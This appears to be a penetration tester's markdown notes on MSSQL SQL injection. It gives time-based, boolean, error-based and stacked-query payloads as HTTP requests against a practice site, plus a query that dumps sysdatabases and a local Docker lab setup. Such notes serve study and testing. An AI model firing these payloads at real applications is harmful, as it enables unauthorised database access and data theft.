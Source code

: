 # mssql_danger_functionalities_and_misconfigurations

## Techniques
### Time Based
Req
```http
GET /Make/2?orderby=supercarid+WAITFOR+DELAY+'00:00:04'-- HTTP/2
Host: hack-yourself-first.com
```

### Boolean Based
Req
```http
GET /Make/2?orderby=(select+CASE+WHEN+(1=2)+THEN+'supercarid'+ELSE+(SELECT+1+Union+select+2)+END)-- HTTP/2
Host: hack-yourself-first.com
```
Response when false
```
Status code 500
Subquery returned more than 1 value
```

### Error Based
Req
```
GET /Make/2?orderby=(CONVERT(INT%2c@@version))-- HTTP/2
Host: hack-yourself-first.com
```
Response
```
Conversion failed when converting the nvarchar value 'Microsoft SQL Azure (RTM) - 12.0.2000.8 <br>	Nov &nbsp;2 2023 01:40:17 <br>	Copyright (C) 2022 Microsoft Corporation<br>' to data type int.</title>
```

### Stacked queried
Req
```
GET /Make/2?orderby=supercarid;WAITFOR+DELAY+'00:00:04'-- HTTP/2
Host: hack-yourself-first.com
```

## Useful Queries

**CAUTION**
The following query should be executed with caution as it has the potential to impact the performance of MSSQL, depending on the size of the table entries returned. It is recommended to run it only when there is confidence that the returned row isn't excessively long.

### DUMP all in one shot using XML
Request
```
(select * from master..sysdatabases) for xml PATH('')
```
Response
```
<name>master</name><dbid>1</dbid><sid>AQ==</sid><mode>0</mode><status>65544</status><status2>
```
## Concepts

### Aspas duplas e simples são tratadas de diferentes formas no MSSQL

A razão pela qual SELECT DB_NAME('1') funciona e SELECT DB_NAME("1") não funciona é que as aspas duplas não são interpretadas da mesma maneira que as aspas simples em SQL Server.

Quando você usa aspas duplas, o SQL Server as trata como um delimitador de identificadores de objetos, não como delimitadores de strings. No caso da função DB_NAME, ela espera uma string como argumento, e essa string deve ser delimitada por aspas simples.

Dessa forma, a função DB_NAME recebe corretamente a string "1" como argumento. Se você tentar usar aspas duplas, o SQL Server interpretará isso como um identificador de objeto e resultará em um erro.

### Structure
Master – All system objects to run the active relational database management system
Model – Template database for new user defined databases and Tempdb when SQL Server starts
TempDB – Stores all temporary objects such as #temp tables, ##temp tables, hash and sort records, etc.
MSDB – Stores all SQL Server Agent related tables and stored procedures
ResourceDB – Hidden and read-only database that includes all system objects

https://www.mssqltips.com/sqlservertip/6422/sql-server-concepts/

### Data types
![](https://www.mssqltips.com/tipimages2/6874_cast-sql-function.002.png)
https://www.mssqltips.com/sqlservertip/6874/sql-cast-function-for-data-type-conversions/

## Inspired by
* https://blog.improsec.com/tech-blog/dangers-mssql-features-impersonation-amp-links
* https://www.madeiradata.com/post/how-to-protect-sql-server-from-hackers-and-penetration-tests

## Resources
* https://github.com/ktaranov/sqlserver-kit
* https://github.com/quentinhardy/msdat

## Local Lab
Docker instance
```
docker run -e "ACCEPT_EULA=Y" -e 'MSSQL_SA_PASSWORD=yourStrong(!)Password' -p 1433:1433 -d mcr.microsoft.com/mssql/server:2019-latest
```
